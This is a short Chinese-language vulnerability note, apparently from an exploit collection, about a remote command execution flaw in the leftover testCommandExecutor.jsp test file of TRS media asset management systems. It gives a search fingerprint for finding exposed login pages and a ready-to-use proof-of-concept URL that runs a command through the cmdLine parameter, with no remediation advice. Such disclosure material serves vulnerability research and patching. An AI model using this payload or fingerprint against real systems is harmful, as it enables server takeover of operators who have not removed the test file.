

# 拓尔思 TRS testCommandExecutor.jsp 远程命令执行漏洞

## 漏洞描述

拓尔思 TRS testCommandExecutor.jsp测试文件存在远程命令执行漏洞，当网站运维者未删除测试文件时，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

```
拓尔思-TRS
```

## 网络测绘

```
"TRS媒资管理系统登录页面"
```

## 漏洞复现

主页面


验证POC

```
/mas/front/vod/main.do?method=newList&view=forward:/sysinfo/testCommandExecutor.jsp&cmdLine=dir&workDir=&pathEnv=&libPathEnv=
```

